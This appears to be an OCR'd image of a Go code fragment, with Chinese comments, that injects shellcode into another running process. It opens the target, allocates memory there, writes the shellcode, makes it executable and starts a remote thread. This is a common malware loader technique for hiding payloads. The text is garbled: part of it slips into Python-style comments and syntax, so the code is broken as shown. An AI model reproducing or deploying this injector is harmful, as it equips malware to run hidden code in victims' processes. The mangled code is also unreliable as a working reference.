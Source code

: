 // 使用 NewProc 函数获取指定函数的地址
VirtualAllocEx := kernel32.NewProc("VirtualAllocEx")
VirtualProtectEx := kernel32.NewProc("VirtualProtectEx")
WriteProcessMemory := kernel32.NewProc("WriteProcessMemory")
CreateRemoteThreadEx := kernel32.NewProc("CreateRemoteThreadEx")
CloseHandle := kernel32.NewProc("CloseHandle")

// 使用 OpenProcess 函数打开指定进程，获取进程句柄
pHandle, errOpenProcess := syscall.OpenProcess(PROCESS_CREATE_THREAD|PROCESS_VM_OPERATION|PROCESS_VM_WRITE|PROCESS_QUERY_INFORMATION|PROCESS_VM_READ, false, pid)

// 如果打开进程出现错误，则返回错误信息
if errOpenProcess != nil {
    return errors.New("Error calling OpenProcess:\r\n" + errOpenProcess.Error())
}

// 使用 VirtualAllocEx 函数在指定进程中分配内存空间
addr, _, errVirtualAlloc := VirtualAllocEx.Call(uintptr(pHandle), 0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_READWRITE)

// 如果分配内存出现错误，则返回错误信息
if errVirtualAlloc.Error() != "The operation completed successfully." {
    return errors.New("Error calling VirtualAlloc:\r\n" + errVirtualAlloc.Error())
}
# 如果地址为0，则说明VirtualAllocEx失败并返回0，返回错误信息
if addr == 0:
    return errors.New("VirtualAllocEx failed and returned 0")

# 调用WriteProcessMemory函数，将shellcode写入到指定进程的内存空间中
_, _, errWriteProcessMemory := WriteProcessMemory.Call(uintptr(pHandle), addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))

# 如果调用WriteProcessMemory函数出现错误，则返回错误信息
if errWriteProcessMemory.Error() != "The operation completed successfully.":
    return errors.New("Error calling WriteProcessMemory:\r\n" + errWriteProcessMemory.Error())

# 调用VirtualProtectEx函数，设置指定内存区域的访问权限为可执行
_, _, errVirtualProtectEx := VirtualProtectEx.Call(uintptr(pHandle), addr, uintptr(len(shellcode)), PAGE_EXECUTE)
# 如果调用VirtualProtectEx函数出现错误，则返回错误信息
if errVirtualProtectEx.Error() != "The operation completed successfully.":
    return errors.New("Error calling VirtualProtectEx:\r\n" + errVirtualProtectEx.Error())

# 调用CreateRemoteThreadEx函数，在指定进程中创建一个新的线程，并在指定地址处执行
_, _, errCreateRemoteThreadEx := CreateRemoteThreadEx.Call(uintptr(pHandle), 0, 0, addr, 0, 0, 0)
# 如果调用CreateRemoteThreadEx函数出现错误，则返回错误信息
if errCreateRemoteThreadEx.Error() != "The operation completed successfully.":
    return errors.New("Error calling CreateRemoteThreadEx:\r\n" + errCreateRemoteThreadEx.Error())
	// 调用 CloseHandle 函数关闭指定句柄
	_, _, errCloseHandle := CloseHandle.Call(uintptr(pHandle))
	// 检查关闭句柄操作是否成功，如果不成功则返回错误信息
	if errCloseHandle.Error() != "The operation completed successfully." {
		return errors.New("Error calling CloseHandle:\r\n" + errCloseHandle.Error())
	}
